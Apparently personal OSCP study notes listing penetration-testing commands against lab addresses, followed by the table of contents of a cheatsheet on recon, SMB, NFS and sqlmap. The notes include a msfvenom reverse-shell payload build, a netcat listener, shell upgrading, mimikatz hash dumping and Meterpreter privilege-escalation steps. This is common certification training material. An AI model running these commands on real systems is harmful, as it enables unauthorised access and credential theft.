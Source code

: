 nikto -host=http://10.11.1.71 -maxtime=30s
ls -lah /usr/share/nmap/scripts/*shellshock*

nc -nlvp 1234 (listen on 1234)

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.73 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe

msfvenom cheat sheet https://book.hacktricks.xyz/shells/shells/untitled

python -c 'import pty; pty.spawn("/bin/sh")'
***
wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """

meterpreter post/multi/recon/local_exploit_suggester 

use mimikatz
msv
mimikatz_command -f samdump::hashes

nmap -T4 -Pn -sV -F -sC -oN Bastard.nmap 10.11.1.50


basic webshell
/usr/share/webshells

active directory recon - https://book.hacktricks.xyz/windows/active-directory-methodology
smb enum check list https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html

# Table Of Content
- [OSCP Cheatsheet](#oscp-cheatsheet)
  * [Disclaimer](#disclaimer)
- [Reconnaissance](#reconnaissance)
  * [Autorecon](#autorecon)
  * [Nmap](#nmap)
    + [Initial Fast TCP Scan](#initial-fast-tcp-scan)
    + [Full TCP Scan](#full-tcp-scan)
    + [Limited Full TCP Scan](#limited-full-tcp-scan)
    + [Top 100 UDP Scan](#top-100-udp-scan)
    + [Full Vulnerability scan](#full-vulnerability-scan)
    + [Vulners Vulnerability Script](#vulners-vulnerability-script)
    + [SMB Vulnerabitlity Scan](#smb-vulnerabitlity-scan)
  * [Gobuster](#gobuster)
    + [HTTP](#http)
      - [Fast Scan (Small List)](#fast-scan--small-list-)
      - [Fast Scan (Big List)](#fast-scan--big-list-)
      - [Slow Scan (Check File Extensions)](#slow-scan--check-file-extensions-)
    + [HTTPS](#https)
  * [SMBCLIENT](#smbclient)
    + [List Shares (As Guest)](#list-shares--as-guest-)
    + [Connect to A Share (As User John)](#connect-to-a-share--as-user-john-)
    + [Download All Files From A Directory Recursively](#download-all-files-from-a-directory-recursively)
    + [Alternate File Streams](#alternate-file-streams)
      - [List Streams](#list-streams)
      - [Download Stream By Name (:SECRET)](#download-stream-by-name---secret-)
  * [Enum4Linux](#enum4linux)
    + [Scan Host](#scan-host)
    + [Scan Host, Suppress Errors](#scan-host--suppress-errors)
  * [NFS](#nfs)
    + [Show mountable drives](#show-mountable-drives)
    + [Mount Drive](#mount-drive)
  * [WebApp Paths](#webapp-paths)
  * [SQLMAP](#sqlmap)
    + [Get Request](#get-request)